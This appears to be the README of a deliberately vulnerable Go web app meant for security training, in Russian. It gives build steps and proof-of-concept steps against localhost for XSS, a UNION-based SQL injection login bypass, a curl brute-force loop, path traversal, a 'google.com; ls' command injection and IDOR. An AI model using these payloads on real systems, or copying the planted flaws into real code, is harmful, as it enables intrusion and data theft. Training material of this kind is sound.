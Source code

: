<h1 align="center">VulnApp</h1>
<p align="center" >Приложение с различными уязвимостями</p>
<p align="center" >Защищённая версия находится <a href="https://github.com/Stepashka20/not-vuln-app" target="_blank">тут</a></p>


## 📃 Инструкция по сборке и запуску приложения

### Требования

Для успешной сборки этого приложения вам потребуется:

- Go (версия 1.18 и выше)
- gcc (установленный и доступный в системе, необходим для sqlite3)

### Сборка и запуск

Для сборки приложения выполните следующие команды:

```bash
git clone https://github.com/Stepashka20/vuln-app
cd vuln-app
go build -o vuln-app
```

Перед запуском скопируйте и заполните `.env`:
```bash
cp .env.example .env
```

Для запуска приложения выполните следующую команду:

```bash
./vuln-app
```

После этого приложение будет доступно по адресу http://localhost:8080

## 👨🏻‍💻 Proof of Concept

### 1. XSS
1. Зарегестрируйтесь с ником `<script>alert(1)</script>`:
2. После этого в профиле появляется алерт с цифрой 1.

### 2. SQLI
1. Зарегестрируйте юзера с ником 'admin': 
```bash
curl 'http://localhost:8080/register' --data-raw 'username=admin&password=supersecurepassword'
```
2. Допустим мы знаем что админ есть в системе. Тогда мы можем войти через его аккаунт:

      Логин: ```a' UNION SELECT 'admin','$2y$04$QMuPN3FQ4EtmNAx.mPGY5e3C9UIibGaX/U.uvknhOLadNwtEA.iH6' --```

      Пароль: ```1234```

4. Вход от админа успешен

### 3. Brute force
1. Запустите испровизированный брут, который будет перебирать пароль: 
```bash
seq 50 | xargs -P50 -I{} curl -s -o /dev/null -w "%{http_code}\n" 'http://localhost:8080/login' --data-raw 'username=admin&password={}'
```
2. Как видно, сервер не ограничивает нас в количестве запросов, поэтому мы можем перебрать пароль бесконечно

### 4. Path Traversal
1. В профиле пользователя загрузите любой файл в секции загрузки "любимого файла"
2. В профиле появится кнопка для скачивания файла вида: 
```bash
http://localhost:8080/files?name=e5fedb3b-9717-44b6-a68b-a2bb042f4409.png
```
3. После этого можно скачать любой файл с сервера, заменив имя файла в ссылке:
```bash
curl http://localhost:8080/files?name=../main.go
```

### 5. OS command injection
1. Перейдите в утилиту Ping:
```bash
http://localhost:8080/ping
```
2. введите в поле для ввода для сайта:
```bash
google.com; ls
```
3. После этого вы увидите список файлов в директории проекта

### 6. IDOR
1. Зарегестрируйте двух юзеров:
```bash
curl 'http://localhost:8080/register' --data-raw 'username=user1&password=supersecurepassword'
curl 'http://localhost:8080/register' --data-raw 'username=user2&password=supersecurepassword'
```
2. Войдите в систему под первым юзером:
```bash
curl 'http://localhost:8080/login' --data-raw 'username=user1&password=supersecurepassword'
```
3. В профиле будет кнопка для удаления своего аккаунта, которая делает запрос на:
```bash
http://localhost:8080/delete?user=user1
```
4. После этого мы можем удалить любого юзера, заменив имя в запросе:
```bash
http://localhost:8080/delete?user=user2
```
